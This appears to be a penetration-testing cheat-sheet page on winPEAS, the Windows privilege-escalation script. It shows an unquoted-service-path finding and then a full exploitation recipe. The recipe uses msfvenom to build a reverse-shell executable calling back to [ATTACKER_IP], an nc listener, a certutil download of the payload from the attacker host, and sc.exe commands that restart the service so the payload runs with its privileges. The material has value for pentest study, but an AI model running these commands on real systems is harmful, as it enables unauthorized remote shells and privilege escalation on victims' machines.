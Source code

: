 ```yaml
---
title: WINPEAS
summary: A Windows local Privilege Escalation Awesome Script.
description: A Windows local Privilege Escalation Awesome Script.
---
```


**[https://github.com/carlospolop/PEASS-ng](https://github.com/carlospolop/PEASS-ng)**

## WINPEAS Basis

**https://github.com/carlospolop/PEASS-ng/releases**

 > 
 > **<font color=red>winPEASx64.exe</font>**
 > Run WinPEAD

## WINPEAS No quotes and Space detected

#### WINPEAS Output

````
WiseBootAssistant(WiseCleaner.com - Wise Boot Assistant)[C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe] - Auto - Running - No quotes and Space detected YOU CAN MODIFY THIS SERVICE: AllAccess
````

#### On attacker machine

 > 
 > **<font color=red>msfvenom -p windows/x64/shell_reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] -f <font color=red>exe -o</font> Wise.exe**</br>
 > Create a reverse shell with the name of the modifiable service.
 > 
 > **<font color=red>nc -lvnp</font> \[ATTACKER_PORT\]**</br>
 > Open a listener.

#### On target machine

 > 
 > **<font color=red>cd "C:\\Program Files (x86)\\</font>Wise"**</br>
 > **<font color=red>certutil.exe -urlcache -f</font> http://\[ATTACKER_IP\]:\[ATTACKER_PORT\]/Wise.exe Wise.exe**</br>
 > Download crafted executable and place it where the space is in the vulnerable path.
 > 
 > **<font color=red>sc.exe stop</font> WiseBootAssistant**</br>
 > **<font color=red>sc.exe query</font> WiseBootAssistant**</br>
 > **<font color=red>sc.exe start</font> WiseBootAssistant**</br>
 > Restart the service to execute the crafted one. 
